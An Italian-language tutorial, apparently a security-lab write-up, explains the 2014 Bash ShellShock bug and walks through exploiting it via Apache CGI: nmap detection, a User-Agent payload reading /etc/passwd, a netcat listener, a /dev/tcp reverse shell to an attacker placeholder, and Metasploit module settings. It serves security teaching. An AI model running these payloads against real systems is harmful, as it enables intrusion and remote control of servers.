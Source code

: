 # Bash CVE-2014-6271 ShellShock

**ShellShock** è una vulnerabilità critica scoperta nel 2014 che interessa molte versioni del linguaggio **Bash** su sistemi *Unix-like*. Consente ad un attaccante di eseguire comandi arbitrari su un server vulnerabile sfruttando variabili d'ambiente manipolate, comunemente attraverso script **CGI** serviti da **Apache**.

## 1 Bash e CGI

**Bash (Bourne Again Shell)** è una shell a riga di comando molto diffusa nei sistemi Linux. <br>
Una **shell** è l'interfaccia testuale che consente l'interazione diretta con il sistema operativo, eseguendo comandi e script.

**CGI (Common Gateway Interface)** è uno standard che permette a un web server (es. Apache) di eseguire programmi o script (come `.cgi` o `.sh`) esterni, al fine di generare contenuti dinamici. <br>
Quando un utente visita una pagina che richiede un'elaborazione, il server Apache invoca lo script CGI per processare l'informazione.

Gli script `.cgi` sono spesso scritti in Bash, Python o Perl, ed eseguono codice con i permessi del server web. <br>
Se la shell di riferimento è una versione di Bash vulnerabile, gli script possono essere utilizzati per iniettare comandi arbitrari sfruttando ShellShock.

La vulnerabilità è causata dal modo in cui Bash gestisce **le variabili d'ambiente contenenti dichiarazioni di funzione**: 
```bash
() { :; }; echo vulnerabile
```
Questa stringa dovrebbe essere interpretata come una funzione vuota, ma Bash esegue anche il comando `echo vulnerabile`, rendendo possibile l'injection di comandi.

---

## 2 – Rilevamento del servizio vulnerabile

Eseguiamo una scansione per verificare che **Apache** sia attivo:

`nmap -sV <IP>`

Se la porta `80` mostra il servizio `Apache`, possiamo collegarci dal browser e verificare la presenza di contenuti o script `.cgi`. <br>
Consigliato ispezionare la pagina o directory per trovare riferimenti a file come `script.cgi`, `test.cgi`, ecc.

Dopo aver identificato uno script CGI lo visualizziamo inserendolo nella barra degli indirizzi del browser:

`http://<IP>/script.cgi`

Eseguiamo la scansione con Nmap per testare ShellShock:

`nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/script.cgi"`

> **Nota**: `http-shellshock.uri` indica il percorso relativo allo script CGI (es. `/test.cgi`). <br>
> La `URI` è semplicemente la parte finale del path usato per raggiungere lo script sulla macchina target.

---

## 3 – Exploitation manuale via BurpSuite

Impostiamo il proxy FoxyProxy su Firefox e abilitiamo **Intercept** su BurpSuite.

Carichiamo la pagina CGI e intercettiamo la richiesta HTTP. Cerchiamo l'header:
```http
User-Agent: Mozilla/5.0 (...)
```
Sostituiamo il valore con:
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
- `() { :; };` → definisce una funzione vuota
- `echo; echo;` → aggiunge output visibile per test
- `/bin/bash -c '<comando>'` → esegue il comando specificato

adesso abbiamo la possilitá di lanciare i comandi che vogliamo e quindi possiamo aprire una reverse shell dando il comando:

`nc -nvlp <PORTA>`

per configurare Netcat in modo che sia in ascolto su una determinata porta

successivamente possiamo usare il seguente comando
```bash
bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1
```
da inserire su BurpSuite.

Quindi il comando completo sará:
```bash
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1'
```

Appena il comando viene eseguito, avremo una reverse shell interattiva dal target vulnerabile.

---

## 4 – Exploitation automatizzato con Metasploit

### Scanner:
```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
run
```

### Exploit:
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
set PAYLOAD cmd/unix/reverse_netcat #meglio lasicare quello di default
set LHOST <IPAttaccante>
set LPORT <Porta>
run
```
Questo modulo automatizza l'invio del payload e apre una reverse shell sulla macchina target.
---
Consiglio di vedere la pagina <a href="https://github.com/opsxcq/exploit-CVE-2014-6271
">GitHub</a> per avere maggiori dettagli. 
